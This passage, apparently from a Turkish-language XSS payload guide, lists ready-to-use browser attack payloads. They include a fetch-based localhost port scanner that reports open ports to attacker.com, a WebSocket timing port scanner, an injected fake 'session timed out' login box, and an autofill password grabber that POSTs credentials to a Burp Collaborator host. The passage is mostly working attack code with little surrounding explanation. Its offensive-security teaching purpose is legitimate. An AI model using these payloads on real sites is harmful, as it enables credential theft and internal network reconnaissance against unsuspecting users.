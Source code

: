 ```html
});

setTimeout(x=>{
controller.abort();
if(q.length) {
q.shift()();
}
}, wait);
}
</script>
```
### Port Scanner (fetch)
```javascript
const checkPort = (port) => { fetch(http://localhost:${port}, { mode: "no-cors" }).then(() => { let img = document.createElement("img"); img.src = http://attacker.com/ping?port=${port}; }); } for(let i=0; i<1000; i++) { checkPort(i); }
```
### Port Scanner (websockets)
```python
var ports = [80, 443, 445, 554, 3306, 3690, 1234];
for(var i=0; i<ports.length; i++) {
var s = new WebSocket("wss://192.168.1.1:" + ports[i]);
s.start = performance.now();
s.port = ports[i];
s.onerror = function() {
console.log("Port " + this.port + ": " + (performance.now() -this.start) + " ms");
};
s.onopen = function() {
console.log("Port " + this.port+ ": " + (performance.now() -this.start) + " ms");
};
}
```
_Kısa süreler yanıt veren bir portu gösterir_ _Uzun süreler yanıt yok demektir._

Chrome'da yasaklanan portlar listesini [**buradan**](https://src.chromium.org/viewvc/chrome/trunk/src/net/base/net\_util.cc) ve Firefox'ta [**buradan**](https://www-archive.mozilla.org/projects/netlib/portbanning#portlist) gözden geçirin.

### Kimlik bilgileri istemek için kutu
```markup
<style>::placeholder { color:white; }</style><script>document.write("<div style='position:absolute;top:100px;left:250px;width:400px;background-color:white;height:230px;padding:15px;border-radius:10px;color:black'><form action='https://example.com/'><p>Your sesion has timed out, please login again:</p><input style='width:100%;' type='text' placeholder='Username' /><input style='width: 100%' type='password' placeholder='Password'/><input type='submit' value='Login'></form><p><i>This login box is presented using XSS as a proof-of-concept</i></p></div>")</script>
```
### Otomatik doldurma şifreleri yakalama
```javascript
<b>Username:</><br>
<input name=username id=username>
<b>Password:</><br>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
Herhangi bir veri şifre alanına girildiğinde, kullanıcı adı ve şifre saldırganın sunucusuna gönderilir, istemci kaydedilmiş bir şifre seçse ve hiçbir şey yazmasa bile kimlik bilgileri dışarı sızdırılacaktır.
